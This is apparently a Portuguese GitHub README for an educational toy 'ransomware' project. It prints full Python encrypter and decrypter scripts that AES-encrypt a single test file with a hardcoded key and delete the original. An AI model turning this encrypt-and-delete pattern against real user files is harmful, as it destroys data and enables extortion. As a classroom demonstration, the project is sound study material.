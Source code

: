 # Ransomware em Python:
Este projeto é uma ransomware desenvolvida em Python no Kali Linux. Ele criptografa e descriptografa arquivos por meio da biblioteca pyaes.

### Origem do Projeto:
Este projeto foi um fork de um repositório do GitHub. Ele foi estudado para fins educacionais sobre Cibersegurança.

### Como funciona:
O script encrypter.py criptografa um arquivo chamado teste.txt e cria um novo arquivo criptografado com a extensão .ransomwaretroll.
O script decrypter.py descriptografa o arquivo e restaura o seu conteúdo original.

- Criar um arquivo para teste:
Antes de rodar o script, crie um arquivo de teste:
echo "Alo Brasil" > teste.txt

- Executar o Encrypter:
python encrypter.py
isso removerá o arquivo teste.txt e criará teste.txt.ransomwaretroll.

- Executar o Decrypter:
python decrypter.py
isso removerá o arquivo criptografado e restaurará teste.txt.

### Códigos
Encrypter (encrypter.py)

import os
import pyaes

### Abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

### Remover o arquivo original
os.remove(file_name)

### Chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

### Criptografar o arquivo
crypto_data = aes.encrypt(file_data)

### Salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

Decrypter (decrypter.py)
import os
import pyaes

### Abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

### Chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

### Remover o arquivo criptografado
os.remove(file_name)

### Criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
